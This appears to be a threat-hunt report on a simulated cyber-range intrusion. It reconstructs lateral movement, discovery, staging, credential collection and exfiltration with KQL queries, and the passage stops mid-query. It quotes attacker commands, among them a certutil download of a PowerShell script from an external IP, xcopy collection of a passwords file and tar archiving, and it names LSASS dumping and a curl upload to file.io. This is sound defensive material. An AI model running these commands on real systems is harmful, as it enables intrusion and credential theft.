

# Threat Hunt — Azuki Import/Export: Cargo Hold

**Analyst:** Juan Saravia

**Investigation Type:** Threat Hunt / SOC Investigation

**Environment:** Azuki Import/Export (梓貿易株式会社) — Cyber Range

**Platform:** Microsoft Defender for Endpoint Advanced Hunting

**Investigation Window:** November 19–22, 2025

---

# 1. Investigation Overview

## Overview

This threat hunt investigated a simulated compromise of **Azuki Import/Export (梓貿易株式会社)** using Microsoft Defender for Endpoint Advanced Hunting telemetry.

The attacker had previously established access to the workstation `azuki-sl`. During the activity examined in this investigation, the adversary returned using different external infrastructure, moved laterally to a high-value file server, performed internal discovery, collected sensitive administrative and business information, staged and compressed stolen data, dumped LSASS memory, exfiltrated files to an external cloud service, established persistence, and attempted to remove forensic evidence.

The investigation reconstructed these actions primarily through KQL queries across endpoint process, authentication, file, and registry telemetry.

---

## Context

The original compromised workstation was:

```text
azuki-sl
```

The associated compromised user was:

```text
kenji.sato
```

The attacker later targeted:

```text
azuki-fileserver01
```

and used the privileged account:

```text
fileadmin
```

The available telemetry covered activity between November 19 and November 22, 2025.

Because the intrusion involved multiple hosts, accounts, processes, and timestamps, many findings required correlation across multiple Microsoft Defender tables rather than relying on a single event.

---

## Data Sources

The investigation used the following Microsoft Defender for Endpoint Advanced Hunting tables:

* `DeviceLogonEvents`
* `DeviceProcessEvents`
* `DeviceFileEvents`
* `DeviceRegistryEvents`

---

## Investigation Scope

The objectives of the threat hunt were to:

* Identify the attacker’s return connection
* Determine the target of lateral movement
* Identify the privileged account used by the attacker
* Reconstruct local and remote network discovery
* Identify the attacker’s staging location
* Determine how additional tooling entered the environment
* Identify sensitive information collected from the file server
* Determine how data was compressed and prepared for exfiltration
* Identify credential-dumping activity
* Determine the external exfiltration method and destination
* Identify persistence mechanisms
* Identify masquerading and anti-forensic activity
* Map confirmed behaviors to MITRE ATT&CK

---

# 2. Attack Chain / Investigation Map

## Attack Chain



## Attack Chain Summary

| Phase / Activity      | Summary                                                            | Key Evidence                            |
| --------------------- | ------------------------------------------------------------------ | --------------------------------------- |
| Return Access         | Attacker reconnected to the existing beachhead                     | `159.26.106.98 → azuki-sl`              |
| Lateral Movement      | RDP was launched toward an internal system                         | `"mstsc.exe" /v:10.1.0.188`             |
| File Server Access    | RDP activity correlated to the high-value file server              | `azuki-fileserver01`                    |
| Valid Account Abuse   | Privileged account used during lateral movement                    | `fileadmin`                             |
| Discovery             | Shares, identity, privileges, and network configuration enumerated | `net.exe`, `whoami.exe`, `ipconfig.exe` |
| Defense Evasion       | Staging location marked Hidden and System                          | `attrib.exe +h +s`                      |
| Local Staging         | Tools and stolen information consolidated                          | `C:\Windows\Logs\CBS`                   |
| Tool Transfer         | PowerShell tooling downloaded with trusted Windows binary          | `certutil.exe → ex.ps1`                 |
| Collection            | Sensitive IT administrative data recursively copied                | `xcopy.exe`                             |
| Credential Collection | Password-related administrative file staged                        | `IT-Admin-Passwords.csv`                |
| Archive Creation      | Staged information compressed before transfer                      | `credentials.tar.gz`, `shipping.tar.gz` |
| Credential Access     | LSASS memory dumped to disk                                        | `pd.exe → lsass.dmp`                    |
| Exfiltration          | Archive uploaded to external cloud service                         | `curl.exe → file.io`                    |
| Persistence           | Windows Run key configured                                         | `FileShareSync`                         |
| Masquerading          | Script named after legitimate Windows component                    | `svchost.ps1`                           |
| Anti-Forensics        | PowerShell history removed                                         | `ConsoleHost_history.txt`               |

---


# 3. Investigation Timeline

| Timestamp (UTC)               | System / Source      | Activity                           | Key Evidence                             |
| ----------------------------- | -------------------- | ---------------------------------- | ---------------------------------------- |
| `2025-11-19T19:10:41.372526Z` | `azuki-sl`           | RDP client executed                | `"mstsc.exe" /v:10.1.0.188`              |
| `2025-11-19T19:10:42.221Z`    | `azuki-fileserver01` | Successful network authentication  | `fileadmin`, source `azuki-sl`           |
| `2025-11-19T19:10:49.228Z`    | `azuki-fileserver01` | Successful RemoteInteractive logon | `fileadmin`                              |
| `2025-11-22T00:27:58.416Z`    | `azuki-sl`           | Attacker returned to beachhead     | `159.26.106.98`                          |
| `2025-11-22T00:40:54.827Z`    | `azuki-fileserver01` | Local shares enumerated            | `"net.exe" share`                        |
| `2025-11-22T00:42:01.957Z`    | `azuki-fileserver01` | Remote shares enumerated           | `"net.exe" view \\10.1.0.188`            |
| `2025-11-22`                  | `azuki-fileserver01` | User/security context queried      | `whoami.exe`                             |
| `2025-11-22T00:42:46.365Z`    | `azuki-fileserver01` | Network configuration queried      | `"ipconfig.exe" /all`                    |
| `2025-11-22T00:55:43.998Z`    | `azuki-fileserver01` | Staging directory hidden           | `"attrib.exe" +h +s C:\Windows\Logs\CBS` |
| `2025-11-22T00:56:47.410Z`    | `azuki-fileserver01` | PowerShell script downloaded       | `certutil.exe → ex.ps1`                  |
| `2025-11-22T01:07:53.643Z`    | `azuki-fileserver01` | IT-Admin files copied              | `xcopy.exe`                              |
| `2025-11-22T01:07:53.674Z`    | `azuki-fileserver01` | Credential file staged             | `IT-Admin-Passwords.csv`                 |
| `2025-11-22`                  | `azuki-fileserver01` | Credential archive created         | `credentials.tar.gz`                     |
| `2025-11-22`                  | `azuki-fileserver01` | Shipping archive created           | `shipping.tar.gz`                        |
| `2025-11-22T01:59:54.275Z`    | `azuki-fileserver01` | Archive uploaded externally        | `curl.exe → file.io`                     |
| `2025-11-22T02:03:19.984Z`    | `azuki-fileserver01` | Suspicious executable staged       | `pd.exe`                                 |
| `2025-11-22T02:10:50.825Z`    | `azuki-fileserver01` | Registry persistence configured    | `FileShareSync`                          |
| `2025-11-22T02:24:44.390Z`    | `azuki-fileserver01` | LSASS memory dumped                | `pd.exe → lsass.dmp`                     |
| `2025-11-22T02:26:01.166Z`    | `azuki-fileserver01` | PowerShell history deleted         | `ConsoleHost_history.txt`                |
| `2025-11-22T02:26:23.418Z`    | `azuki-fileserver01` | Suspicious executable deleted      | `pd.exe`                                 |

---

# 4. Executive Summary

The investigation identified a multi-stage intrusion originating from an already compromised workstation and progressing into a high-value internal file server.

The attacker returned to `azuki-sl` from the external IP address `159.26.106.98` and used RDP to access `azuki-fileserver01` with the compromised privileged account `fileadmin`.

After obtaining access to the file server, the attacker performed system and network discovery, enumerated local and remote shares, identified their active user context, and retrieved detailed network configuration.

The adversary then prepared `C:\Windows\Logs\CBS` as a concealed staging location by assigning Hidden and System attributes. Additional tooling was downloaded using `certutil.exe`, while `xcopy.exe` was used to collect sensitive administrative information from the file server.

The collected information included `IT-Admin-Passwords.csv`. Staged directories were later compressed into `.tar.gz` archives using `tar.exe`.

A suspicious executable named `pd.exe` was staged inside the attacker's working directory and later used to dump LSASS memory to `C:\Windows\Logs\CBS\lsass.dmp`.

The attacker used `curl.exe` to upload stolen archive data to the external cloud file-sharing service `file.io`.

Persistence was established using the `FileShareSync` registry Run-key value, which launched a PowerShell script named `svchost.ps1` from `C:\Windows\System32`. The naming of both the registry value and script was intended to blend with legitimate system activity.

Near the end of the observed intrusion, the attacker deleted `ConsoleHost_history.txt`, removing the persistent PowerShell command history associated with the compromised account.

Overall, the investigation confirmed lateral movement, privileged account abuse, system discovery, data collection, credential access, exfiltration, persistence, defense evasion, and anti-forensic activity.

---

## Key Findings

| Finding                  | Summary                                                              |
| ------------------------ | -------------------------------------------------------------------- |
| Return Access            | Attacker returned to `azuki-sl` from `159.26.106.98`                 |
| Lateral Movement         | RDP activity connected `azuki-sl` to `azuki-fileserver01`            |
| Privileged Account Abuse | `fileadmin` was used to access the file server                       |
| Discovery                | Shares, user context, and network configuration were enumerated      |
| Staging                  | `C:\Windows\Logs\CBS` became the attacker’s hidden staging directory |
| Tool Transfer            | `certutil.exe` downloaded `ex.ps1`                                   |
| Sensitive Collection     | IT administrative and credential-related files were collected        |
| Archive Creation         | Stolen data was compressed using `tar.exe`                           |
| Credential Access        | LSASS memory was dumped to `lsass.dmp`                               |
| Exfiltration             | Staged archives were uploaded to `file.io` with `curl.exe`           |
| Persistence              | `FileShareSync` was added to the Windows Run key                     |
| Masquerading             | Persistence payload was named `svchost.ps1`                          |
| Anti-Forensics           | PowerShell history was deleted                                       |

---

## Indicators / Notable Artifacts

| Type           | Indicator / Artifact              | Context                                           |
| -------------- | --------------------------------- | ------------------------------------------------- |
| External IP    | `159.26.106.98`                   | Return connection to `azuki-sl`                   |
| External IP    | `78.141.196.6`                    | Attacker-hosted PowerShell tooling                |
| Internal IP    | `10.1.0.188`                      | RDP and remote-share target                       |
| Host           | `azuki-sl`                        | Original compromised workstation                  |
| Host           | `azuki-fileserver01`              | Compromised file server                           |
| Account        | `kenji.sato`                      | Compromised workstation user                      |
| Account        | `fileadmin`                       | Privileged account used on file server            |
| Directory      | `C:\Windows\Logs\CBS`             | Hidden staging location                           |
| File           | `ex.ps1`                          | Downloaded PowerShell payload                     |
| File           | `IT-Admin-Passwords.csv`          | Sensitive administrative credential file          |
| File           | `credentials.tar.gz`              | Compressed credential archive                     |
| File           | `shipping.tar.gz`                 | Compressed business-data archive                  |
| File           | `pd.exe`                          | Suspicious executable used for credential dumping |
| File           | `lsass.dmp`                       | LSASS memory dump                                 |
| Domain         | `file.io`                         | External exfiltration destination                 |
| Registry Value | `FileShareSync`                   | Persistence mechanism                             |
| File           | `C:\Windows\System32\svchost.ps1` | Masqueraded persistence script                    |
| File           | `ConsoleHost_history.txt`         | Deleted PowerShell history                        |

---

# 5. Investigation Findings

---

## Finding 1 — Attacker Return Connection

### Objective

Identify the external IP address used when the attacker returned to the compromised environment.

### Finding Summary

After establishing initial access on November 19, 2025, the attacker later returned to the compromised `azuki-sl` system. At `2025-11-22T00:27:58.416Z`, `DeviceLogonEvents` recorded a successful `RemoteInteractive` logon for `kenji.sato` originating from the external IP address `159.26.106.98`.

The source IP differed from the infrastructure associated with the earlier compromise, indicating that the attacker changed infrastructure before reconnecting and continuing operations inside the environment.

### Investigation Approach

`DeviceLogonEvents` was reviewed for successful remote authentication activity involving `azuki-sl`.

The hunt focused on:

* Successful logons
* Remote-interactive sessions
* External `RemoteIP` values
* Activity occurring after the original compromise

### Query / Search Used

**KQL Name: `Return IP Hunt`**

```kusto
DeviceLogonEvents
| where TimeGenerated between (
    datetime(2025-11-19) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-sl"
| where ActionType == "LogonSuccess"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    ActionType,
    LogonType,
    InitiatingProcessAccountName,
    RemoteIP,
    RemoteDeviceName
| order by TimeGenerated asc
```

### Evidence

```text
Timestamp: 2025-11-22T00:27:58.416Z
Device: azuki-sl
Account: kenji.sato
Action: LogonSuccess
Logon Type: RemoteInteractive
Remote IP: 159.26.106.98
```

> Add screenshot: Return connection logon event

### Analysis

This event confirms that the attacker retained access to the original workstation and resumed operations using different external infrastructure.

### Security Impact

Continued successful access demonstrated that the attacker maintained a usable foothold in the environment after the initial compromise.

### MITRE ATT&CK Mapping

| Tactic                                       | Technique      | ATT&CK ID |
| -------------------------------------------- | -------------- | --------- |
| Defense Evasion / Persistence-related Access | Valid Accounts | T1078     |

### Confirmed Finding

`159.26.106.98`

---

## Finding 2 — Lateral Movement to File Server

### Objective

Identify the internal server targeted by the attacker for lateral movement.

### Finding Summary

On `2025-11-19T19:10:41.372526Z`, the compromised workstation `azuki-sl` executed `mstsc.exe` with the command line `/v:10.1.0.188`, indicating an RDP connection attempt to an internal host.

Correlating this process execution with `DeviceLogonEvents` showed successful logon activity on `azuki-fileserver01` within seconds of the RDP execution. A successful network logon using the `fileadmin` account occurred at `2025-11-19T19:10:42.221Z`, followed by a successful `RemoteInteractive` logon at `2025-11-19T19:10:49.228Z`.

This correlation confirmed that the attacker moved laterally from the compromised workstation to the file server `azuki-fileserver01`.

### Investigation Approach

The investigation first searched `DeviceProcessEvents` on `azuki-sl` for `mstsc.exe`.

The target IP from the command line was then correlated with authentication telemetry around the same timestamp.

### Query / Search Used

**KQL Name: `RDP Pivot Hunt`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2025-11-19) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-sl"
| where FileName =~ "mstsc.exe"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    ActionType,
    FileName,
    ProcessCommandLine
| order by TimeGenerated asc
```

Correlation query:

```kusto
DeviceLogonEvents
| where TimeGenerated between (
    datetime(2025-11-19T19:10:41Z) ..
    datetime(2025-11-19T19:11:00Z)
)
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    ActionType,
    LogonType,
    RemoteIP,
    RemoteDeviceName
| order by TimeGenerated asc
```

### Evidence

```text
2025-11-19T19:10:41.372526Z
azuki-sl
"mstsc.exe" /v:10.1.0.188
```

Followed by:

```text
2025-11-19T19:10:42.221Z
Device: azuki-fileserver01
Account: fileadmin
Action: LogonSuccess
Logon Type: Network
RemoteDeviceName: azuki-sl
```

and:

```text
2025-11-19T19:10:49.228Z
Device: azuki-fileserver01
Account: fileadmin
Action: LogonSuccess
Logon Type: RemoteInteractive
```

> Add screenshots: MSTSC execution and correlated file-server authentication

### Analysis

The strongest evidence was the sequence rather than a single IP field:

```text
azuki-sl
   ↓
mstsc.exe /v:10.1.0.188
   ↓
Network LogonSuccess
   ↓
azuki-fileserver01
   ↓
RemoteInteractive LogonSuccess
```

This confirmed the file server as the lateral movement target.

### Security Impact

The compromise expanded from a workstation into a high-value server containing sensitive administrative and business information.

### MITRE ATT&CK Mapping

| Tactic           | Technique       | ATT&CK ID |
| ---------------- | --------------- | --------- |
| Lateral Movement | Remote Services | T1021     |

### Confirmed Finding

`azuki-fileserver01`

---

## Finding 3 — Compromised Administrator Account

### Objective

Identify the privileged account used to access the compromised file server.

### Finding Summary

Following the RDP execution from `azuki-sl`, authentication telemetry on `azuki-fileserver01` showed successful activity using the account `fileadmin`.

A successful network logon occurred approximately one second after the RDP client was launched, followed shortly afterward by a successful `RemoteInteractive` session. The close timing and source-device correlation indicate that the attacker used the compromised `fileadmin` credentials during lateral movement.

### Investigation Approach

Authentication events on the file server were reviewed during the previously established lateral-movement window.

### Query / Search Used

**KQL Name: `Admin Hunt`**

```kusto
DeviceLogonEvents
| where TimeGenerated between (
    datetime(2025-11-19T19:10:40Z) ..
    datetime(2025-11-19T19:11:00Z)
)
| where DeviceName == "azuki-fileserver01"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    ActionType,
    LogonType,
    RemoteIP,
    RemoteDeviceName
| order by TimeGenerated asc
```

### Evidence

```text
Device: azuki-fileserver01
Account: fileadmin
Action: LogonSuccess
Logon Types: Network / RemoteInteractive
```

> Add screenshot: `fileadmin` authentication sequence

### Analysis

The account was not identified simply because it appeared in the logs. Its use immediately following the confirmed RDP activity tied the account to the adversary's lateral movement.

### Security Impact

Compromise of a privileged file-management account increased the attacker’s access to high-value files and administrative resources.

### MITRE ATT&CK Mapping

| Tactic                                       | Technique      | ATT&CK ID |
| -------------------------------------------- | -------------- | --------- |
| Defense Evasion / Persistence-related Access | Valid Accounts | T1078     |

### Confirmed Finding

`fileadmin`

---

## Finding 4 — Local Network Share Enumeration

### Objective

Identify the command used by the attacker to enumerate local network shares.

### Finding Summary

Following lateral movement to `azuki-fileserver01`, the attacker began local discovery under the compromised `fileadmin` account.

At `2025-11-22T00:40:54.827Z`, `DeviceProcessEvents` recorded:

```text
"net.exe" share
```

This command lists shares configured on the local Windows system and allowed the attacker to identify potentially valuable shared resources before beginning collection.

### Investigation Approach

Process telemetry on `azuki-fileserver01` was searched for `net.exe` activity during the attacker’s operational window.

### Query / Search Used

**KQL Name: `Share Hunt`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2025-11-19) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where ProcessCommandLine has_any ("net")
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessAccountName,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

```text
Timestamp: 2025-11-22T00:40:54.827Z
Device: azuki-fileserver01
Account: fileadmin
Command: "net.exe" share
```

> Add screenshot: local share enumeration

### Analysis

This activity represents reconnaissance of the local server’s shared data resources.

### Security Impact

Share enumeration gave the attacker information needed to select high-value directories for later collection.

### MITRE ATT&CK Mapping

| Tactic    | Technique               | ATT&CK ID |
| --------- | ----------------------- | --------- |
| Discovery | Network Share Discovery | T1135     |

### Confirmed Finding

`"net.exe" share`

---

## Finding 5 — Remote Network Share Enumeration

### Objective

Identify the command used to enumerate resources on a remote internal system.

### Finding Summary

After enumerating local shares, the attacker continued network discovery from `azuki-fileserver01`.

At `2025-11-22T00:42:01.957Z`, `DeviceProcessEvents` recorded:

```text
"net.exe" view \\10.1.0.188
```

The UNC-style path `\\10.1.0.188` identifies a remote Windows host. The command was used to query shared resources available on that system.

### Investigation Approach

The investigation continued forward from the local share-discovery event and searched for `net.exe` executions containing network paths.

### Query / Search Used

**KQL Name: `Remote Share Hunt`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2025-11-22T00:40:54.827Z) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where ProcessCommandLine has_any (
    "net",
    "\\"
)
| where AccountName == "fileadmin"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessAccountName,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

```text
Timestamp: 2025-11-22T00:42:01.957Z
Device: azuki-fileserver01
Account: fileadmin
Command: "net.exe" view \\10.1.0.188
```

> Add screenshot: remote-share enumeration

### Analysis

The attacker expanded discovery from resources on the compromised host to resources available across the internal network.

### Security Impact

Remote share discovery can identify additional sources of sensitive data and potential targets for further lateral movement.

### MITRE ATT&CK Mapping

| Tactic    | Technique               | ATT&CK ID |
| --------- | ----------------------- | --------- |
| Discovery | Network Share Discovery | T1135     |

### Confirmed Finding

`"net.exe" view \\10.1.0.188`

---

## Finding 6 — User / Security Context Discovery

### Objective

Identify the Windows utility used by the attacker to understand the active user and security context.

### Finding Summary

After obtaining access to `azuki-fileserver01`, the attacker executed the native Windows utility `whoami.exe`.

The command allowed the adversary to determine which account was active and understand the security context available during the session. Depending on the command arguments, `whoami` can also expose group memberships and assigned privileges.

This information would help the attacker determine whether the current access level was sufficient or whether additional privilege escalation was necessary.

### Investigation Approach

Process telemetry was searched for native identity and privilege-discovery utilities executed by `fileadmin`.

### Query / Search Used

**KQL Name: `Identity Hunt`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2025-11-22T00:42:01.957Z) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where ProcessCommandLine contains "whoami"
| where AccountName == "fileadmin"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessAccountName,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

```text
Device: azuki-fileserver01
Account: fileadmin
Executable: whoami.exe
```

> Add screenshot: `whoami.exe`

### Analysis

The attacker was actively assessing the permissions available in the compromised session.

### Security Impact

Understanding available privileges helps an attacker determine which files, services, or administrative operations are accessible.

### MITRE ATT&CK Mapping

| Tactic    | Technique                   | ATT&CK ID |
| --------- | --------------------------- | --------- |
| Discovery | System Owner/User Discovery | T1033     |

### Confirmed Finding

`whoami.exe`

---

## Finding 7 — Network Configuration Discovery

### Objective

Identify the command used to retrieve detailed network configuration from the compromised server.

### Finding Summary

At `2025-11-22T00:42:46.365Z`, the attacker executed:

```text
"ipconfig.exe" /all
```

under the compromised `fileadmin` account.

The `/all` argument retrieves detailed connection information beyond the system’s basic IP address, including adapter configuration, DNS information, DHCP settings, gateways, and other network details.

This would help the attacker better understand the internal network environment and potential paths for additional movement.

### Investigation Approach

Process telemetry was searched for utilities commonly used to obtain network-adapter and connection information.

### Query / Search Used

**KQL Name: `Network Hunt`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2025-11-22T00:42:01.957Z) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where ProcessCommandLine has_any (
    "show",
    "esxcli",
    "ipconfig"
)
| where AccountName == "fileadmin"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessAccountName,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

```text
Timestamp: 2025-11-22T00:42:46.365Z
Device: azuki-fileserver01
Account: fileadmin
Command: "ipconfig.exe" /all
```

> Add screenshot: `ipconfig.exe /all`

### Analysis

The command represents deliberate internal network reconnaissance performed after successful lateral movement.

### Security Impact

Network configuration details can help identify trusted network segments, DNS infrastructure, gateways, and additional reachable systems.

### MITRE ATT&CK Mapping

| Tactic    | Technique                              | ATT&CK ID |
| --------- | -------------------------------------- | --------- |
| Discovery | System Network Configuration Discovery | T1016     |

### Confirmed Finding

`"ipconfig.exe" /all`

---

## Finding 8 — Hidden Local Staging Directory

### Objective

Determine how the attacker concealed the staging directory and identify the path used for local staging.

### Finding Summary

After completing network and system discovery on `azuki-fileserver01`, the attacker prepared and concealed a local staging directory.

At `2025-11-22T00:55:43.998Z`, `DeviceProcessEvents` recorded:

```text
"attrib.exe" +h +s C:\Windows\Logs\CBS
```

The `+h` argument applied the Hidden attribute, while `+s` applied the System attribute. This made `C:\Windows\Logs\CBS` less visible during normal browsing.

The same directory was later used to store downloaded tooling, copied data, credential files, archives, the suspicious `pd.exe` executable, and `lsass.dmp`.

The event therefore demonstrates both concealment of malicious artifacts and establishment of a local staging location.

### Investigation Approach

Process telemetry was reviewed for executions of Windows utilities capable of modifying file and directory attributes.

### Query / Search Used

**KQL Name: `Staging Hunt`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2025-11-22T00:42:46.3655894Z) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where ProcessCommandLine has_any ("Attrib")
| where AccountName == "fileadmin"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessAccountName,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

```text
Timestamp: 2025-11-22T00:55:43.998Z
Command: "attrib.exe" +h +s C:\Windows\Logs\CBS
```

> Add screenshot: staging-directory concealment

### Analysis

The attacker chose a path that already resembled legitimate Windows logging infrastructure and then further concealed it through file attributes.

### Security Impact

The hidden directory provided a centralized location for attacker tools and stolen data while reducing visibility during casual inspection.

### MITRE ATT&CK Mapping

| Tactic          | Technique                    | ATT&CK ID |
| --------------- | ---------------------------- | --------- |
| Defense Evasion | Hidden Files and Directories | T1564.001 |
| Collection      | Local Data Staging           | T1074.001 |

### Confirmed Findings

`"attrib.exe" +h +s C:\Windows\Logs\CBS`

`C:\Windows\Logs\CBS`

---

## Finding 9 — Ingress Tool Transfer

### Objective

Identify how the attacker transferred additional tooling onto the compromised file server.

### Finding Summary

After preparing the hidden staging directory, the attacker abused the legitimate Windows utility `certutil.exe` to retrieve a PowerShell script from external infrastructure.

At `2025-11-22T00:56:47.410Z`, `DeviceProcessEvents` recorded:

```text
"certutil.exe" -urlcache -f http://78.141.196.6:7331/ex.ps1 C:\Windows\Logs\CBS\ex.ps1
```

The command downloaded `ex.ps1` from `78.141.196.6` and wrote the script directly into the previously established staging directory.

The use of a trusted Windows binary allowed the attacker to perform tool transfer without introducing a dedicated downloader.

### Investigation Approach

Process telemetry was searched for Windows utilities with HTTP download capability.

### Query / Search Used

**KQL Name: `Tool Transfer Hunt`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2025-11-22T00:55:43.9986049Z) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where ProcessCommandLine has_any ("certutil")
| where AccountName == "fileadmin"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessAccountName,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

```text
Timestamp: 2025-11-22T00:56:47.410Z
Command:
"certutil.exe" -urlcache -f http://78.141.196.6:7331/ex.ps1 C:\Windows\Logs\CBS\ex.ps1
```

> Add screenshot: Certutil tool transfer

### Analysis

The activity is a clear example of a legitimate operating-system utility being repurposed for malicious file transfer.

### Security Impact

The attacker successfully introduced additional PowerShell tooling into the compromised environment.

### MITRE ATT&CK Mapping

| Tactic              | Technique             | ATT&CK ID |
| ------------------- | --------------------- | --------- |
| Command and Control | Ingress Tool Transfer | T1105     |

### Confirmed Finding

`"certutil.exe" -urlcache -f http://78.141.196.6:7331/ex.ps1 C:\Windows\Logs\CBS\ex.ps1`

---

## Finding 10 — Credential File Collection

### Objective

Identify credential-related information collected by the attacker from the file server.

### Finding Summary

After establishing the hidden staging location, the attacker used the compromised `fileadmin` account to collect sensitive information from the server.

At `2025-11-22T01:07:53.674Z`, `DeviceFileEvents` recorded the creation of:

```text
IT-Admin-Passwords.csv
```

while `xcopy.exe` was copying files from `C:\FileShares\IT-Admin` into the staging location.

The filename strongly indicates that administrative credential information was included within the collected data and could potentially be used for further lateral movement or privilege escalation.

### Investigation Approach

`DeviceFileEvents` was reviewed for files created during the `xcopy.exe` collection activity.

### Query / Search Used

**KQL Name: `Credential File Hunt`**

```kusto
DeviceFileEvents
| where TimeGenerated between (
    datetime(2025-11-22T00:42:01.957Z) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where InitiatingProcessAccountName == "fileadmin"
| where InitiatingProcessCommandLine contains "xcopy"
| project
    TimeGenerated,
    DeviceName,
    ActionType,
    FileName,
    InitiatingProcessAccountName,
    InitiatingProcessCommandLine,
    InitiatingProcessFileName
```

### Evidence

```text
Timestamp: 2025-11-22T01:07:53.674Z
File: IT-Admin-Passwords.csv
Initiating Process: xcopy.exe
Account: fileadmin
```

> Add screenshot: credential file creation

### Analysis

`xcopy.exe` did not generate the credential contents itself. It copied an existing credential-related file into the attacker-controlled staging location.

### Security Impact

Exposure of privileged administrative credentials could significantly expand the scope of the compromise.

### MITRE ATT&CK Mapping

| Tactic            | Technique             | ATT&CK ID |
| ----------------- | --------------------- | --------- |
| Credential Access | Unsecured Credentials | T1552     |

### Confirmed Finding

`IT-Admin-Passwords.csv`

---

## Finding 11 — Automated Collection and Local Data Staging

### Objective

Identify the command used by the attacker to recursively collect sensitive administrative data.

### Finding Summary

After gaining access to `azuki-fileserver01`, the attacker used the compromised `fileadmin` account to collect and stage sensitive data.

At `2025-11-22T01:07:53.643Z`, `DeviceProcessEvents` recorded:

```text
"xcopy.exe" C:\FileShares\IT-Admin C:\Windows\Logs\CBS\it-admin /E /I /H /Y
```

The command copied the contents of `C:\FileShares\IT-Admin` into the hidden staging location `C:\Windows\Logs\CBS\it-admin`.

The `/E`, `/I`, and `/H` options allowed the attacker to recursively copy subdirectories, treat the destination as a directory, and include hidden and system files. `/Y` suppressed overwrite prompts.

Although `C:\FileShares\IT-Admin` appears as a local path in the command, it represents the server-side directory containing file-share data.

### Investigation Approach

Process telemetry was reviewed for native Windows utilities capable of recursive file copying.

### Query / Search Used

**KQL Name: `Collection Hunt`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2025-11-22T00:56:47.0Z) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where FileName in~ (
    "copy.exe",
    "move.exe",
    "robocopy.exe",
    "xcopy.exe",
    "scp.exe",
    "ftp.exe",
    "curl.exe",
    "bitsadmin.exe",
    "certutil.exe"
)
| where AccountName == "fileadmin"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessAccountName,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

```text
Timestamp: 2025-11-22T01:07:53.643Z
Command:
"xcopy.exe" C:\FileShares\IT-Admin C:\Windows\Logs\CBS\it-admin /E /I /H /Y
```

> Add screenshot: XCopy collection

### Analysis

This command demonstrates systematic collection of an entire administrative data directory into a centralized staging location.

### Security Impact

Sensitive administrative information was prepared for later processing and exfiltration.

### MITRE ATT&CK Mapping

| Tactic     | Technique            | ATT&CK ID |
| ---------- | -------------------- | --------- |
| Collection | Automated Collection | T1119     |
| Collection | Local Data Staging   | T1074.001 |

### Confirmed Finding

Challenge answer:

`"xcopy.exe" C:\FileShares\IT-Admin C:\Windows\Logs\CBS\it-admin /E /I /H`

Full observed command:

`"xcopy.exe" C:\FileShares\IT-Admin C:\Windows\Logs\CBS\it-admin /E /I /H /Y`

---

## Finding 12 — Archive Creation

### Objective

Determine how the attacker compressed the staged information before exfiltration.

### Finding Summary

After collecting and staging sensitive information under `C:\Windows\Logs\CBS`, the attacker used `tar.exe` to create portable compressed archives.

Two confirmed commands included:

```text
"tar.exe" -czf C:\Windows\Logs\CBS\credentials.tar.gz -C C:\Windows\Logs\CBS\it-admin .
```

and:

```text
"tar.exe" -czf C:\Windows\Logs\CBS\shipping.tar.gz -C C:\Windows\Logs\CBS\shipping .
```

The `-c` option created an archive, `-z` applied gzip compression, `-f` specified the output filename, and `-C` selected the source directory.

This reduced the staged data into compact archives that were easier to transfer outside the environment.

### Investigation Approach

File and process activity were reviewed for archive-creation behavior associated with `tar.exe`.

### Query / Search Used

**KQL Name: `Archive Hunt`**

```kusto
DeviceFileEvents
| where TimeGenerated between (
